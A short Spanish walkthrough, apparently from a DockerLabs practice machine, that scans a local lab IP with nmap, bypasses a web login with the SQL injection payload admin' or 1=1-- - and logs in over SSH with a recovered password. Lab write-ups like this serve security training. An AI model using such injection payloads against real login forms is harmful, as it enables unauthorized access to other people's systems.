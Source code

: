 
Enlace de la máquina --> https://dockerlabs.es/

-------------------------

PROCEDIMIENTO:

Tenemos la IP: `172.17.0.2`

![[Pasted image 20240904161947.png]]

----------------------

RECONOCIMIENTO:

Hacemos un reconocimiento de puertos con `nmap`. Con el siguiente comando:

```
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG escaneo
```

Nos sale los siguientes puertos:

![[Pasted image 20240904162707.png]]

----------------------------

EXPLOTACIÓN:

Accedemos a la web poniendo la ip en el navegador y nos sale una web de logeo: 

![[Pasted image 20240904162956.png]]

Como no sabemos usuario ni contraseña haremos una injeción SQL, con el siguiente parámetro:

```
admin' or 1=1-- -
```

La contraseña ponemos la queramos y nos sale lo siguiente: 

![[Pasted image 20240904163236.png]]

Tenemos usuario y contraseña y el puerto 22 ssh abierto. Pues intentemos introducirnos con el siguiente comando:

```
ssh dylan@172.17.0.2
```

![[Pasted image 20240904163522.png]]

Ponemos la contraseña:

```
KJSDFG789FGSDF78
```


Y ya estaríamos adentro 
![[Pasted image 20240904163724.png]]

